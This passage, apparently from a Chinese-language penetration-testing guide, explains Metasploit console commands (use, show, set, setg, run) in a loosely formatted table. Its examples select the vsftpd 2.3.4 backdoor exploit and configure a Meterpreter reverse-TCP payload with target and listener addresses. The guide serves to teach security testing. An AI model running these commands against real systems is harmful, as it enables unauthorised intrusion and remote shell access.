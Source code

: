 与 Metasploit 中特定模块相关的所有内容都包含在帮助菜单的模块控制部分。使用上述命令，我们可以选择特定模块，从特定路径加载模块，获取有关模块的信息，显示与模块相关的核心和高级选项，甚至可以在线编辑模块。让我们学习一些 Metasploit 的基本命令，并熟悉这些命令的语法和语义：

| **Command** | **Usage** | **Example** |
| --- | --- | --- |
| `use` [auxiliary/exploit/payload/encoder] | 选择特定的模块开始工作。 |

```
msf>use
exploit/unix/ftp/vsftpd_234_backdoor
msf>use auxiliary/scanner/portscan/tcp 

```

|

| `show` [exploits/payloads/encoder/auxiliary/options] | 查看特定类型的可用模块列表。 |
| --- | --- |

```
msf>show payloads
msf> show options        

```

|

| `set` [options/payload] | 为特定对象设置值。 |
| --- | --- |

```
msf>set payload windows/meterpreter/reverse_tcp
msf>set LHOST 192.168.10.118
msf> set RHOST 192.168.10.112
msf> set LPORT 4444
msf> set RPORT 8080        

```

|

| `setg` [options/payload] | 全局分配值给特定对象，因此在打开模块时值不会改变。 |
| --- | --- |

```
msf>setg RHOST   192.168.10.112       

```

|

| `run` | 在设置所有必需选项后启动辅助模块。 |
| --- | --- |

```
msf>run      

```
